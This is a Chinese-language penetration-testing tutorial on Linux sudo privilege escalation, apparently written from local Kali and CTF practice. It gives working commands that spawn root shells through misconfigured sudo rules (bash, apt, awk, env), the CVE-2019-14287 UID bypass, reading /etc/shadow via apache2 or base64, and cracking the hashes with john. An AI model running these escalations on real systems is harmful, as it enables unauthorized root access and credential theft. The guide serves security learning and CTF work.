# 什么是提权？

在渗透测试中，如果当前获取的用户权限较低，那我们将无法访问受保护的系统资源或执行系统管理操作，这就需要用到提权的技术

提权通常是在我们getshell之后将普通用户权限临时提升到更高级别（如root超级用户权限），以执行需要特权操作的命令。

和常见的越权漏洞一样，权限提升通常也分为横向权限提升和垂直权限提升。横向权限提升通常指的是同级用户之间，由甲用户接管乙用户的权限。后者则是指从较低的用户权限获取更高的用户权限，例如Linux的root用户权限或Windows的system管理员用户权限

# 用户、组、文件、目录

## 关于用户

用户即系统中的个体账户，每个用户都有唯一的UID，root用户（UID=0）是超级用户，具有最高权限。

## 关于组

是用户的集合，一个组内可能有多个用户，一个用户可能属于多个组，GID表示用户所属的主组。

## 关于文件和目录

文件指的是系统中的基本数据单元，可存储文本、程序、二进制等。目录指的是文件系统的容器，用于组织文件和子目录。所有文件和目录都有一个所有者和一个组。权限以读取、编写和执行操作的方式定义。以三组rwx表示（用户、组、其他）。

- 列出系统所有用户账户配置 `cat /etc/passwd`
- 列出系统所有用户密码哈希`cat /etc/shadow`
- 列出系统所有组 `cat /etc/group`
- 当前用户 `whoami`
- 当前用户信息 `id`

## 四者的关系

一个用户可以属于多个组。一个组可以具有多个用户。

每个文件和目录都根据用户、组和"其他用户"来定义其权限。

# 1、SUDO提权

## 什么是sudo

sudo（superuser do）是一个Unix-like操作系统（如Linux、macOS）中的命令行工具，用于允许普通用户以超级用户（root）或其他指定用户的权限临时执行命令，而无需切换到该用户账户。

在某些时候，为了方便运维人员以低权限账号进行运维，通常会开启账号的一些SUDO权限给运维账号，而SUDO权限的授予是在`/etc/sudoers`中进行操作的，通常格式如下

```bash
myuser ALL=(ALL:ALL) NOPASSWD:/usr/bin/apt-get
```

- myuser表示用户名
- 第一个 ALL 指示允许从任何终端访问sudo
- 第二个 (ALL:ALL)：第一个 ALL：可以以任何用户身份运行；第二个 ALL：可以以任何组身份运行
- 第三个 NOPASSWD 表示不需要输入密码而可以sudo执行的命令

这里要注意了添加的命令一定要写在最后一行

## sudo相关的命令

```bash
sudo [sudo命令]
```

以特定用户身份执行命令

```bash
sudo -u [username] [sudo命令]
```

所以从上面不难看出，我们想要查看哪些命令设置了sudo，就可以通过`cat /etc/sudoers`文件或者`sudo -l`命令去查看

关于SUDO提权，可以通过查看https://gtfobins.github.io/ 电子书，这是一套利用系统自带可执行文件绕过本地安全限制的文档，从中能找到不同命令可用的SUDO提权方式

## 常见的可提权命令

### /bin/bash提权



本地测试一下，添加配置

```bash
kali ALL=(root) NOPASSWD:/bin/bash
```



然后退回到kali用户进行`sudo -l`查看sudo命令



提权方法

最简单的方法

```bash
sudo /bin/bash
```

当然也可以指定用户，比如root

```bash
sudo -u root /bin/bash
```



但是如果遇到命令中存在不能以root用户运行



这种情况该怎么办呢？

```bash
sudo -u#[UID] /bin/bash
```

这是另一种写法，通过UID去指定需要以UID对应的用户身份去运行

根据[CVE-2019-14287](https://nvd.nist.gov/vuln/detail/cve-2019-14287)可以得出，在1.8.28之前的Sudo版本中，此时如果UID是-1的话，系统就会因为匹配不上而让他为0，从而可以以UID为0的用户身份去运行也就是root，但是这个我自己本地测试并没有成功。。。

```bash
sudo -u \#$((0xffffffff)) [command]
```

### /usr/bin/apt提权



`sudo -l`查看sudo可执行文件



提权命令

```bash
sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash
```



同样的apt-get的提权方法也是一样的

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
```

### /usr/sbin/apache2提权



`sudo -l`查看sudo可执行文件



提权方法

- 使用sudo运行apache2，并提供/etc/shadow文件作为配置文件

```bash
sudo apache2 -f /etc/shadow
```

此时会出现报错，并且带出root的哈希



- 将密码哈希保存在文件hash.txt并用john进行爆破哈希

```bash
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- 用破解出来的密码去进行su切换root用户

### /bin/ash提权



提权命令

```bash
sudo ash
```

### /usr/bin/awk提权



`sudo -l`查看sudo可执行文件



提权命令

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```



### /usr/bin/base64提权



主要是用来读取高权限文件

`sudo -l`查看sudo可执行文件



提权命令

```bash
sudo base64 "$FILE" | base64 --decode
```



因为base64命令只是对文件内容进行编码，所以需要`base64 -d`解码操作

如果能获取到root的哈希值的话，还是像apache2中一样用john去进行破解哈希

此外：base32，base58等base相关的命令利用方式也是一样的

### /usr/bin/env提权



`sudo -l`查看sudo可执行文件



提权方法

最简单的命令

可以用来启动交互式shell

```bash
sudo env /bin/bash
sudo env /bin/sh
```



执行单行命令

```bash
sudo env /bin/sh -c "whoami"
```

需要注意的是，例如在一些ssti或者RCE的时候如果不能加sudo的话正常的`-c`是会因为系统安全策略导致降权的



这里就需要用`-p`参数进行，例如我在极客大挑战2025中遇到的一道ssti，用`sudo env /bin/sh -c "whoami"`返回的是空，而`env /bin/sh -c "whoami"`返回ctf，`env /bin/sh -p -c "whoami"`返回root
